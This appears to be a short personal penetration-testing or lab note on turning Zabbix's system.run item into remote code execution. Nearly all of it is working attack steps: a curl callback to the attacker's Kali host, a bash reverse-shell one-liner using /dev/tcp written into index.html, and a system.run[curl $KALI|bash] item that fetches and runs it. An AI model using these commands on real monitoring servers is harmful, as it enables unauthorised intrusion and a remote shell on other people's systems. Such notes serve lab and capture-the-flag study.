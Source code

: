 https://blog.zabbix.com/zabbix-remote-commands/7500/

[[Python#Server]]

Configuration > Hosts > $Hostname > Configuration > Items > Create Item
```
system.run[curl $KALI,nowait]
```

Click `Test`, then `Get value`, check listener.

![[Pasted image 20220925113513.png]]

```bash - kali
echo '/bin/bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"' > index.html
```

```
system.run[curl $KALI|bash,nowait]
```


